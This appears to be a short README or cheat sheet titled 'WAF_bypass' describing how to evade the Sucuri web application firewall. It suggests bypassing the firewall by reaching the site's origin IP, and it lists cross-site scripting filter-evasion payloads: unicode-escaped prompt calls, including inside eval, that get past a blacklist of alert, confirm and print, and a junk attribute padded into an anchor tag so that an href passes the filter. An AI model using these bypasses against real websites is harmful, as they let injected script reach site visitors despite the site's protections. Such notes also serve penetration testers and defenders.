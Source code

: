 # WAF_bypass

## Securi WAF

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```

  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

